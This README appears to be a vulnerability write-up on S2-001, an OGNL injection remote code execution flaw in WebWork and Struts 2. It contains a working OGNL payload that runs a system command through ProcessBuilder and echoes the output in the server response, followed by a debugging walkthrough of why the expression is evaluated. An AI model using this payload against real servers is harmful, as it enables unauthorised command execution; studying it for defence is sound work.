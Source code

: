 # S2-001 Demo

## Summary

Impact of vulnerability: Remote Code Execution

Affected Software: `WebWork 2.1` (with `altSyntax` enabled), `WebWork 2.2.0` - `WebWork 2.2.5`, Struts 2.0.0 - Struts 2.0.8

Problem: The `'altSyntax'` feature of `WebWork 2.1`+ and Struts 2 allows `OGNL` expressions to be inserted into text strings and is processed recursively. This allows a malicious user to submit a string, usually through an HTML text field, containing an `OGNL` expression that will then be executed by the server if the form validation has failed.

## Environment

Struts2 Version: `struts-2.0.1-all`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![{FDDB7DE1-A721-4C4B-A719-BEA79D4F0AC0}_20200619170042](img/{FDDB7DE1-A721-4C4B-A719-BEA79D4F0AC0}_20200619170042.jpg)

payload:

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

## Debug

我们首先来了解一下Struts2 中的validation机制。

validation依靠validation和workflow两个拦截器。validation会根据配置的xml文件创建一个特殊字段错误列表，而workflow则会根据validation的错误对其进行检测，如果输入有值，将会把用户带回到原先提交表单的页面，并且将值返回。

![clipboard1](img/clipboard1.png)

代码中判断输入不为admin则返回error触发错误，workflow将输入返回到表单中：

![clipboard0](img/clipboard0.png)

这是为什么payload输入到框中，为什么有回显的原因。

再看代码为什么执行。

调试发现，在服务器将用户输入的值返回到提交表单时，服务器会解析tag标签，并对OGNL表达式进行解析，包括用户输入的value。

<img src="img/clipboard2.png" alt="clipboard2" style="zoom: 200%;" />

在doEndTag和doStartTag处下断点：

`struts2-core-2.0.1.jar!/org/apache/struts2/views/jsp/ComponentTagSupport.class:22`

`struts2-core-2.0.1.jar!/org/apache/struts2/views/jsp/ComponentTagSupport.class:28`

![clipboard3](img/clipboard3.png)

跟进，发现判断了一个altSyntax语法开关，如果开启则给参数加上%{}

![clipboard4](img/clipboard4.png)

跟进findValue函数，可以看到有两重循环，作用是将%{}之间的表达式取出来执行。第一次先取出username:

![clipboard5](img/clipboard5.png)

通过OgnlUtil.getValue取出username对应的值%{1+1}

![clipboard6](img/clipboard6.png)

<img src="img/clipboard7.png" alt="clipboard7" style="zoom:150%;" />

开始第二次循环

![clipboard8](img/clipboard8.png)

取出了1+1，并计算了结果。

<img src="img/clipboard9.png" alt="clipboard9" style="zoom:150%;" />

最后一次循环，expression.indexOf未找到%{，则退出循环。

<img src="img/clipboard10.png" alt="clipboard10" style="zoom:150%;" />

## Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-001](https://xz.aliyun.com/t/2044)
- [S2-001](https://cwiki.apache.org/confluence/display/WW/S2-001)
- https://xz.aliyun.com/t/2044
- https://www.codemonster.cn/2018/03/28/2018-struts2-001/
- https://www.cnblogs.com/magic-zero/p/8214034.html
- https://xz.aliyun.com/t/111/
